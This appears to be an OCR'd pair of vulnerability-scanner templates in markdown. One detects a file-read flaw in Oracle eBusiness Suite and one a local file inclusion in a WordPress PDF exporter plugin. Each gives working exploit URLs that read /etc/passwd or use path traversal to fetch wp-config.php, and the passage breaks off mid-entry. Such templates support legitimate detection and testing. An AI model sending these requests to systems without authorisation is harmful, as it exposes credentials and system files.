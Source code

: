# Oracle eBusiness Suite - Improper File Access

## Description

- Oracle eBusiness Suite is susceptible to improper file access vulnerabilities via bispgrapgh. Be aware this product is no longer supported with patches or security fixes.

- severity - critical
- tags - oracle,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/OA_HTML/bispgraph.jsp%0D%0A.js?ifn=passwd&ifl=/etc/
- {{BaseURL}}/OA_HTML/jsp/bsc/bscpgraph.jsp?ifl=/etc/&ifn=passwd

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

---

# WordPress Aspose PDF Exporter - Local File Inclusion

## Description

- WordPress Aspose PDF Exporter is vulnerable to local file inclusion.
- severity - high
- tags - aspose,packetstorm,wordpress,wp-plugin,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/Wordpress/Aaspose-pdf-exporter/aspose_pdf_exporter_download.php?file=../../../wp-config.php

### Matchers

**Type - word**
